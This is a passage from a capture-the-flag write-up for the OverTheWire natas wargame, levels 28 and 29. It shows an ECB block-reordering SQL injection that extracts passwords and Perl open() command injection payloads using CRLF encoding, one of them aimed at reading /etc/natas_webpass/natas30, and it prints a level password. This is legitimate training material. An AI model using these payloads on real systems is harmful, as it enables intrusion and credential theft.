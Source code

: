 ```
5b8ac3d259f2d7ab9ba3fac39824b10a -> SELECT password 
d06f8990367940a4f964783862394d6b -> AS joke from use
c7ddf69db1b142b2caa52da41350d657 -> rs WHERE 1 # aaa
1f74714d76fcc5d464c6a221e6ed98e4 -> 3 bits 'a' + 13 bits end
6223a14d9c4291b98775b03fbc73d4ed -> 16 bits end
d8ae51d7da71b2b083d919a0d7b88b98 -> 1 bits end + 15 bits padding
```

Decode cipher:
`5b8ac3d259f2d7ab9ba3fac39824b10ad06f8990367940a4f964783862394d6bc7ddf69db1b142b2caa52da41350d6571f74714d76fcc5d464c6a221e6ed98e46223a14d9c4291b98775b03fbc73d4edd8ae51d7da71b2b083d919a0d7b88b98`

We get base64 url query:
`W4rD0lny16ubo%2FrDmCSxCtBviZA2eUCk%2BWR4OGI5TWvH3fadsbFCssqlLaQTUNZXH3RxTXb8xdRkxqIh5u2Y5GIjoU2cQpG5h3WwP7xz1O3YrlHX2nGysIPZGaDXuIuY`

Request GET from: `http://natas28.natas.labs.overthewire.org/search.php/?query=W4rD0lny16ubo%2FrDmCSxCtBviZA2eUCk%2BWR4OGI5TWvH3fadsbFCssqlLaQTUNZXH3RxTXb8xdRkxqIh5u2Y5GIjoU2cQpG5h3WwP7xz1O3YrlHX2nGysIPZGaDXuIuY`, we get response:

`airooCaiseiyee8he8xongien9euhe8b`

### natas29

This is perl command injection, open() function is vulnerable and can be used to execute commands, such as: `"| shutdown -r |"`. So we can send a payload: `?file=|ls` but it's not working.

Try change payload to: `?file|ls%0D%0A`, `?file|ls%0D`, `?file|ls%0A`, ... by using CRLF, we can see the response:

```
 index.html.tmpl index.pl index.pl.tmpl perl underground 2.txt perl underground 3.txt perl underground 4.txt perl underground 5.txt perl underground.txt
```

Next, we use payload: `?file|cat+index.pl%0A` and get the response:

```php
if(param('file')){
    $f=param('file');
    if($f=~/natas/){
        print "meeeeeep!<br>";
    }
    else{
        open(FD, "$f.txt");
        print "<pre>";
        while (<FD>){
            print CGI::escapeHTML($_);
        }
        print "</pre>";
    }
}
```

We need get the content of `/etc/natas_webpass/natas30`. If you use payload" `?file=|cat+/etc/natas_webpass/natas30%0A`, the response is `meeeeeep! (see in source code).
